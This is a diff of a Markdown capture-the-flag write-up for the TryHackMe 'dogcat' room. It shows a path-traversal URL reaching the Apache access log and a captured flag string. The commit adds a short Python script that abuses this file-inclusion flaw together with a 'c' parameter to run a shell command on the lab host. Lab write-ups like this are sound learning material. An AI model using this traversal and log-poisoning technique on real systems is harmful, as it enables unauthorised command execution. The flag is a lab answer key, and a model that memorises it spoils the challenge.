

Before and after one commit to Frankishtien/Challenges-writeups-CTFS, a Markdown page: THM/dogcat.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/THM/dogcat.md
+++ b/THM/dogcat.md
@@ -532,3 +532,25 @@ http://10.10.43.88/?view=dog/../../../../../../../../../var/log/apache2/access.l
 ```
 $flag_1 = "THM{Th1s_1s_N0t_4_Catdog_ab67edfa}"
 ```
+
+
+
+> ## test
+
+```python
+#!/usr/bin/env python
+
+import requests
+
+shell = 'echo a > test'
+
+url = "http://10.10.77.157/"
+
+params = {
+    "view": "dog/../../../../../../var/log/apache2/access.log",
+    "ext": "",
+    "c": shell
+}
+
+r = requests.get(url, params = params)
+```
````
